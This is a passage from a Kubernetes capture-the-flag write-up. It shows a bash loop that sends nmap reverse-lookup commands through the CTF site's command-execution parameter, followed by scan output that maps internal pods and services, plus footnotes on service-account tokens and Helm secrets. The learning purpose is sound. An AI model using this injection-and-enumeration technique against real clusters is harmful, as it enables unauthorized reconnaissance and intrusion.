 ### nmap enumeration

I ran many experiments here and only recorded the more significant ones. I tried to [nmap the API Server](#nmap-the-api-server), [nmap the Pod CIDR on port 80](#nmap-the-pod-cidr-on-port-80), and [nmap the K8s node to look for NodePort Services](look-for-nodeports-on-k8s-node), all of which taught me things, but did not end up being ways forward in this CTF. This line of thinking did lead me to discover the [fourth egg](#no-networkpolicy-blocking-traffic-from-ssh-to-egg) though!

#### Exploit Kubernetes DNS PTR records for enumeration

Once I guessed wht the Pod CIDR range was from viewing ssh's environment variables, I could actually somewhat exploit Kubernetes DNS to enumerate all services running in the cluster using nmap[^k8s_dns_docs]. By depending the PTR records, I could nmap the entire `192.168.0.0/16` and reverse lookup to gain information on pod names and namespaces.

Specifically, I found nmap's `-sL` flag (sends no packets and just do a reverse-lookup) especially useful[^nmap_docs]. This only took 12 minutes to run, much faster than my earlier nmap experiments.

[^nmap_docs]:[https://nmap.org/book/host-discovery-controls.html](https://nmap.org/book/host-discovery-controls.html)

```bash
#!/bin/bash
for i in {0..255}
do
  nmap=`curl -s http://k8s-ctf.rocks/?fcommand=nmap+-sL+192.168.$i.0-255`
  printf "%s" "$nmap" >> test.txt
done
```

Here are the interesting bits after parsing and cleaning it:

```shell
Nmap scan report for 192-168-33-248.entry.foo.svc.cluster.local (192.168.33.248)
Nmap scan report for 192-168-35-47.egg.foo.svc.cluster.local (192.168.35.47)
Nmap scan report for 192-168-40-105.calico-typha.kube-system.svc.cluster.local (192.168.40.105)
Nmap scan report for 192-168-49-107.entry.foo.svc.cluster.local (192.168.49.107)
Nmap scan report for 192-168-57-81.joker.foo.svc.cluster.local (192.168.57.81)
Nmap scan report for 192-168-61-236.ssh.foo.svc.cluster.local (192.168.61.236)
Nmap scan report for 192-168-68-105.ssh.foo.svc.cluster.local (192.168.68.105)
Nmap scan report for 192-168-71-233.traefik.traefik.svc.cluster.local (192.168.71.233)
Nmap scan report for 192-168-87-226.kube-dns.kube-system.svc.cluster.local (192.168.87.226)
Nmap scan report for 192-168-90-163.datadog-kube-state-metrics.default.svc.cluster.local (192.168.90.163)
Nmap scan report for entry-8598b84874-gkglr (192.168.90.174)
Nmap scan report for 192-168-90-188.honk.bar.svc.cluster.local (192.168.90.188)
Nmap scan report for 192-168-90-231.kube-dns.kube-system.svc.cluster.local (192.168.90.231)
Nmap scan report for 192-168-94-68.entry.foo.svc.cluster.local (192.168.94.68)
Nmap scan report for 192-168-151-115.kubernetes.default.svc.cluster.local (192.168.151.115)
Nmap scan report for 192-168-174-156.kubernetes.default.svc.cluster.local (192.168.174.156)
```

This was really cool to see work, albeit kind of scary - this is kind of enumeration is explicitly denied by cluster RBAC. Things I learned from this information:


[^can-i_docs]: [https://kubernetes.io/docs/reference/access-authn-authz/authorization/#authorization-modules](https://kubernetes.io/docs/reference/access-authn-authz/authorization/#authorization-modules) I was curious about whether I could determine the RBAC I had for any/all namespaces, but I found that there's no way to do this. In some sense one could brute-force namespace names (granted some make sense to always check, such as as kube-system and default) and see what RBAC has been granted, but it's not that promising if you're just shooting in the dark.
[^k8s_networkpolicy_doc]: [https://kubernetes.io/docs/concepts/services-networking/network-policies/](https://kubernetes.io/docs/concepts/services-networking/network-policies/)
[^k8s_token_docs]: [https://kubernetes.io/docs/tasks/access-application-cluster/access-cluster/#accessing-the-api-from-a-pod](https://kubernetes.io/docs/tasks/access-application-cluster/access-cluster/#accessing-the-api-from-a-pod) The documentation says `/var/run/secrets/kubernetes.io/serviceaccount`, but I found `/var/run` is just a symlink to `/run`
[^k8s_cluster_kubeadm_docs]: [https://kubernetes.io/docs/setup/production-environment/tools/kubeadm/create-cluster-kubeadm/](https://kubernetes.io/docs/setup/production-environment/tools/kubeadm/create-cluster-kubeadm/) See the section titled "Installing a Pod network add-on" for more details.
[^helm2_data_release]: http://technosophos.com/2017/03/23/how-helm-uses-configmaps-to-store-data.html
[^helm3_release_secret]: [https://stackoverflow.com/a/58693790](https://stackoverflow.com/a/58693790)
[^k8s_secrets_docs]: [https://kubernetes.io/docs/concepts/configuration/secret/](https://kubernetes.io/docs/concepts/configuration/secret/)
[^internal_traefik]: You just need to pass a header defining Host. For more information see the Kubernetes Ingress documentation: [https://kubernetes.io/docs/concepts/services-networking/ingress/](https://kubernetes.io/docs/concepts/services-networking/ingress/)
[^sshd_docs]: I really found this documentation helpful in understanding how SSHD works [https://www.ssh.com/ssh/sshd/#startup-and-roles-of-different-sshd-processes](https://www.ssh.com/ssh/sshd/#startup-and-roles-of-different-sshd-processes)